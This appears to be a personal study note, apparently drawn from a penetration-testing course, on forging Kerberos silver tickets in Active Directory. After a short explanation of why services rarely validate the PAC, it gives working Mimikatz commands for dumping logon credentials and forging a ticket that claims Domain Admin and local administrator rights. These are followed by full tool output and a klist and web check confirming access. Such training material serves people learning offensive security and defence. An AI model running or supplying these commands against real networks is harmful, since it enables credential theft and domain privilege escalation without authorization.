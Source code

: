 # Overview
>The application on the server executing in the context of the service account checks the user's permissions from the group memberships included in the service ticket. However, the user and group permissions in the service ticket are not verified by the application in a majority of environments. In this case, the application blindly trusts the integrity of the service ticket since it is encrypted with a password hash that is, in theory, only known to the service account and the domain controller.
>_Privileged Account Certificate_ (PAC)[1](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_225-1) validation[2](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_225-2) is an optional verification process between the SPN application and the domain controller. If this is enabled, the user authenticating to the service and its privileges are validated by the domain controller. Fortunately for this attack technique, service applications rarely perform PAC validation.
>As an example, if we authenticate against an IIS server that is executing in the context of the service account _iis_service_, the IIS application will determine which permissions we have on the IIS server depending on the group memberships present in the service ticket.
>With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource (in our example, the IIS application) with any permissions we desire. This custom-created ticket is known as a _silver ticket_[3](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_225-3) and if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.


# Exploit
In general, we need to collect the following three pieces of information to create a silver ticket:
- SPN password hash
- Domain SID
- Target SPN

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# obtain the NTLM hash of the user account service
mimikatz # kerberos::golden /sid:<sid> /domain:<domain.local> /ptt /target:<target> /service:<service> /rc4:<hash> /user:<user>

# EXAMPLE
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```

In the example, a new service ticket for the SPN _HTTP/web04.corp.com_ has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( _Relative Id: 500_ ) and a member of several highly-privileged groups, including the Domain Admins group ( _Relative Id: 512_ ) as highlighted above.
This means we should have the ticket ready to use in memory. We can confirm this with **klist**.

```powershell
# Listing Kerberos tickets to confirm the silver ticket is submitted to the current session
PS C:\Tools> klist
Current LogonId is 0:0xa04cc
Cached Tickets: (1)
#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:

# Verify our access to the service
iwr -UseDefaultCredentials http://web04

```
